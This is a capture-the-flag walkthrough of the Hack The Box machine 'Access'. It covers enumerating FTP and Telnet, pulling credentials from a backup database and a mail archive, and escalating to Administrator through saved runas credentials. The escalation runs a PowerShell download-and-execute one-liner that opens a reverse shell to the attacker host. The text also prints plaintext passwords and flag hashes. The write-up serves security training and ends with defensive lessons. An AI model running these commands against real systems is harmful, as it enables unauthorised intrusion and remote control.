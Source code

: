 # HTB: Access

## Engagement Overview

**Target:** Access (HTB)  
**Box IP:** 10.10.10.98  
**Date:** 2025-09-16  
**Attacker Host:** 10.10.14.3  

---

### Objectives

- Enumerate services and discover exposed files.  
- Extract credentials from backups/mail archives.  
- Gain initial foothold via Telnet.  
- Escalate to Administrator using misconfigured runas/savecred.  
- Capture `user.txt` and `root.txt`.  

---

## Service Enumeration

### Nmap

```bash
sudo nmap -sC -sV -T5 -oA logs/nmap 10.10.10.98
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
23/tcp open  telnet  Microsoft Telnet
80/tcp open  http    Microsoft IIS httpd 7.5
```

### Web/FTP Discovery

- FTP anonymous access allowed.  
- Retrieved files:  
  - `Backups/backup.mdb`  
  - `Engineer/Access Control.zip` → contained `Access Control.pst`.  

```bash
# Mirror
wget -m ftp://anonymous:anonymous@10.10.10.98
```

---

## Initial Access

### Credential Extraction

From `backup.mdb` (auth_user table):  

- `engineer:access4u@security`  

```bash
# quick string search
strings 10.10.10.98/Backups/backup.mdb | grep -C3 access

admin
engineer
access4u@security

# Alternate method mdbtools (export auth_user)
mdb-tables backup.mdb

# Clean up output to see tables
mdb-tables backup.mdb | tr ' ' '\n' | grep . | while read table; do lines=$(mdb-export backup.mdb $table | wc -l); if [ $lines -gt 1 ]; then echo "$table: $lines"; fi; done
acc_timeseg: 2

# List table data
mdb-export backup.mdb auth_user
```

Password unlocked `Access Control.zip` → contained `Access Control.pst`.  
From PST (email):  

- `security:4Cc3ssC0ntr0ller`  

```bash
# PST -> MBOX
7z x "Access Control.zip"
readpst "Access Control.pst"
less "Access Control.mbox"
```

### Telnet Login

```bash
telnet 10.10.10.98
# login: security
# password: 4Cc3ssC0ntr0ller
```

```cmd
C:\Users\security> whoami
access\security

C:\Users\security> type Desktop\user.txt
cb237095f1d0b24079794fa1a2932c1b
```

---

## Privilege Escalation

### Suspicious LNK

Found `ZKAccess3.5 Security System.lnk` referencing:  

```cmd
runas.exe /user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"
```

### Abusing Saved Credentials

Hosted Nishang PowerShell one-liner on attacker machine and executed via runas:  

```powershell
# attacker
nc -lnvp 443

# target
runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.3/shell.ps1')"
```

Reverse shell established as Administrator:  

```cmd
PS C:\Users\Administrator\Desktop> type root.txt
bc97e19e6897f692e5272f63e763a3a8
```

---

## House Cleaning

- Removed hosted `shell.ps1` from attacker box.  
- No persistence or artifacts left on target.  

---

## Tools Utilized

- `nmap`, `gobuster`  
- `strings`, `mdbtools`, `readpst`  
- `telnet`, `nc`  
- `runas`, `powershell` (Nishang one-liner)  

---

## Key Takeaways

- Backup and PST files exposed sensitive credentials.  
- Weak service configuration (Telnet, anonymous FTP) enabled easy access.  
- Misconfigured `runas /savecred` allowed privilege escalation.  
- Defensive measures: restrict backup access, remove Telnet, audit saved credentials, monitor PowerShell downloads.  
